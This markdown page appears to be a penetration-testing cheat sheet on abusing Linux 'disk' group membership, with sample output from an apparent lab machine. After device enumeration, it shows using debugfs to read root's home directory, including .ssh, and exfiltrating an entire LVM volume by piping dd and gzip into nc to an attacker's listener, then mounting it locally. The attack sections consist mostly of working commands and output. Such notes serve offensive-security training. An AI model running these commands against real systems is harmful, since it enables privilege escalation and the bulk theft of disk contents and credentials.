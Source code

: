 ```yaml
---
title: "Disk Group"
date: 2025-7-25
tags: ["Privilege Escalation", "Data Exfiltration", "File System Mounting", "Disk", "Backup", "Privilege Read", "Container", "LVM", "Debugfs"]
---
```


### General

```console
# Show devices
lsblk
```

```console {class="sample-code"}
$ lsblk
NAME                   MAJ:MIN RM  SIZE RO TYPE MOUNTPOINT
sda                      8:0    0   12G  0 disk 
├─sda1                   8:1    0  120M  0 part /boot
├─sda2                   8:2    0    1K  0 part 
└─sda5                   8:5    0 11.9G  0 part 
  ├─Kotarak--vg-root   252:0    0    7G  0 lvm  /
  └─Kotarak--vg-swap_1 252:1    0    1G  0 lvm  [SWAP]
sr0                     11:0    1 1024M  0 rom
```

```console
# Device attributes
blkid
```

```console {class="sample-code"}
$ blkid
/dev/sda1: UUID="67e178a9-1b2a-407e-8d3f-7b1772bab2be" TYPE="ext2" PARTUUID="1b9f3540-01"
/dev/sda5: UUID="LnUYcF-uZX0-c91G-XfUl-6BqJ-gk8W-QtnncD" TYPE="LVM2_member" PARTUUID="1b9f3540-05"
/dev/mapper/Kotarak--vg-root: UUID="efb44a28-8edc-4d40-aca3-81e57d58d759" TYPE="ext4"
/dev/mapper/Kotarak--vg-swap_1: UUID="162b2913-7dcf-4ba7-bddc-238a22f16e52" TYPE="swap"
```

```console
# Show device mapping
ls -l /dev/mapper/
```

```console {class="sample-code"}
$ ls -l /dev/mapper/
total 0
crw------- 1 root root 10, 236 Sep 22 23:22 control
lrwxrwxrwx 1 root root       7 Sep 22 23:22 Kotarak--vg-root -> ../dm-0
lrwxrwxrwx 1 root root       7 Sep 22 23:22 Kotarak--vg-swap_1 -> ../dm-1
```

```console
# Show swap on blk
swapon -s
```

```console {class="sample-code"}
$ swapon -s
Filename                                Type            Size    Used    Priority
/dev/dm-1                               partition       1048572 0       -1
```

```console
# Filesystem info
cat /etc/fstab
```

```console {class="sample-code"}
$ cat /etc/fstab
# /etc/fstab: static file system information.
#
# Use 'blkid' to print the universally unique identifier for a
# device; this may be used with UUID= as a more robust way to name devices
# that works even if disks are added and removed. See fstab(5).
#
# <file system> <mount point>   <type>  <options>       <dump>  <pass>
/dev/mapper/Kotarak--vg-root /               ext4    errors=remount-ro 0       1
# /boot was on /dev/sda1 during installation
UUID=67e178a9-1b2a-407e-8d3f-7b1772bab2be /boot           ext2    defaults        0       2
/dev/mapper/Kotarak--vg-swap_1 none            swap    sw              0       0
/dev/fd0        /media/floppy0  auto    rw,user,noauto,exec,utf8 0       0
```

---

### Abuse #1: Read Host's Filesystem from Container (root)

#### 1. Open Target Device

```console
debugfs /dev/sda1
```

```console {class="sample-code"}
$ debugfs /dev/sda1
debugfs 1.44.1 (24-Mar-2018)
```

```console
# Read
ls -l /root
```

```console {class="sample-code"}
   2456   40750 (2)      0      0    4096 23-Sep-2024 06:49 .
      2   40755 (2)      0      0    4096 24-Nov-2023 10:10 ..
   2457  100600 (1)      0      0    3121 27-Nov-2017 22:45 .bashrc
   2458  100600 (1)      0      0     148 17-Aug-2015 18:30 .profile
  50878   40700 (2)      0      0    4096 13-Sep-2022 18:51 .cache
  50115  100400 (1)      0      0      33 23-Sep-2024 06:49 root.txt
 131982   40755 (2)      0      0    4096 24-Nov-2023 09:41 .nano
  56604   40755 (2)      0      0    4096 13-Sep-2022 18:51 .ssh
  30962  120777 (7)      0      0       9 13-Sep-2022 18:36 .bash_history

(END)
```

---

### Abuse #2: Read Container's Filesystem from Host

#### 1. Show LVM Mappings

```console
ls -l /dev/mapper/
```

```console {class="sample-code"}
$ ls -l /dev/mapper/
total 0
crw------- 1 root root 10, 236 Sep 22 23:22 control
lrwxrwxrwx 1 root root       7 Sep 22 23:22 Kotarak--vg-root -> ../dm-0
lrwxrwxrwx 1 root root       7 Sep 22 23:22 Kotarak--vg-swap_1 -> ../dm-1
```

#### 2. Exfil Container's Filesystem

```console
# In our local machine
nc -lvnp <LOCAL_PORT> > <DEVICE_MAPPING>.gz
```

```console {class="sample-code"}
$ nc -lvnp 4444 > dm-0.gz
listening on [any] 4444 ...
connect to [10.10.14.31] from (UNKNOWN) [10.10.10.55] 35450
```

```console
# Target container rootfs, e.g. dm-0
dd if=/dev/<DEVICE_MAPPING> | gzip -1 - | nc <LOCAL_IP> <LOCAL_PORT>
```

```console {class="sample-code"}
$ dd if=/dev/dm-0 | gzip -1 - | nc 10.10.14.31 4444
14680064+0 records in
14680064+0 records out
7516192768 bytes (7.5 GB, 7.0 GiB) copied, 306.697 s, 24.5 MB/s
```

#### 3. Mount Locally

```console
# Extract dm-0
gunzip <DEVICE_MAPPING>.gz
```

```console {class="sample-code"}
$ gunzip dm-0.gz
```

```console
# Mount the filesystem
sudo mount <DEVICE_MAPPING> /mnt/ 
```

```console {class="sample-code"}
$ sudo mount dm-0 /mnt/
```

```console
# Read
ls /mnt/root/
```

```console {class="sample-code"}
$ ls /mnt/root/
app.log  flag.txt
```

<small>*Note: can take a long time to transfer*</small>
